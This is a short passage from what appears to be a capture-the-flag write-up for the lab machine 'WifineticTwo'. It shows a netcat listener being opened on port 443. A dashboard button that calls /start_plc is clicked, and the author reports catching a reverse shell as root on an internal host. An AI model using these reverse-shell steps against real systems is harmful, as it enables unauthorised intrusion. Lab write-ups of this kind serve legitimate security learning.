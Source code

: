 ```bash
❯ nc -lvnp 443
listening on [any] 443 ...
```

And click "Start PLC" (which is the button that submits the GET request to /start_plc as saw in the script) in /dashboard:

![click start plc](/assets/images/WifineticTwo/click-start-plc.png)

And I receive my reverse shell as root in a host called "attica03", which is not the machine's IP (10.10.11.7). It's 10.0.3.4 and 10.0.3.237:
